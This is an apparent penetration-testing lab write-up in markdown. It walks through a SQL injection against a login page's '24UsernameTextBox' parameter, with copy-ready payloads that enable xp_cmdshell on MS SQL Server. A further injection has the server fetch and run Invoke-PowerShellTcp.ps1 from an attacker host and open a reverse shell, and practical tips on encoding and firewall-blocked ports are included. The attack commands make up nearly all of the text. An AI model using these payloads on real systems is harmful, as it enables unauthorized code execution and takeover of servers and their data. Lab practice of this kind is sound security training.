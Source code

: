 - Navigate to the login page and capture the login request using burpsuite. Both `error`-based and `time`-based SQL injection will identify SQLi at `24UsernameTextBox`parameter. For the sake of demonstration, `error`-based SQL injection `1' 1234 -- //` is used here.![[Pasted image 20240125015149.png]]
- Upon identifying the SQLi, enable `xp_cmdshell` with another one-liner SQL injection .
	```
	1'exec('sp_configure''show advanced option'',''1''reconfigure')exec('sp_configure''xp_cmdshell'',''1''reconfigure')waitfor delay '0:0:10' -- //
	```
	- Remember to URL-encode!
- After successful enable of `xp_cmdshell`, set up web server and retrieve and execute `Invoke-PowerShellTcp.ps1` with another SQL injection.
	```
	1'EXEC master.dbo.xp_cmdshell 'powershell.exe -c iex(iwr http://192.168.45.203:80/Windows/Invoke-PowerShellTcp.ps1 -UseBasicParsing); Invoke-PowerShellTcp -Reverse -IPAddress 192.168.45.203 -Port 443'waitfor delay '0:0:5' -- //
	```
	- Remember to URL-encode
	- Port 4444 does not work here. Blocked by firewall possibly.